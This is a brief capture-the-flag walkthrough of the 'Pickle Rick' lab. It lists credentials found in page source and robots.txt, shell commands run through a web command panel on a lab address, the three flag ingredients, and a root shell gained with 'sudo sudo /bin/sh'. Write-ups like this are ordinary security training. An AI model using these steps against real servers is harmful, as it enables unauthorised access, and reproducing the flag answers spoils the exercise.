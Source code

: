 # Pickle Rick
```
F12
/robots.txt

R1ckRul3s
Wubbalubbadubdub
```

command bar input:
```
ls

/var/www/html
Sup3rS3cretPickl3Ingred.txt √
assets
clue.txt √
denied.php √
index.html √
login.php √
portal.php √
robots.txt √
```

```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

 Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

7-level base64 decode：
```
rabbit hole
``` 

turn to browser, using url
```
http://10.10.46.211/Sup3rS3cretPickl3Ingred.txt
```

Get first flag
```
mr. meeseek hair
```

In `clue.txt`
```
Look around the file system for the other ingredient.
```

In `/home/rick/'second ingredients'`
```
1 jerry tear
```

Privilege escalation. 
```
sudo sudo /bin/sh
```

```
/root/3rd.txt
```

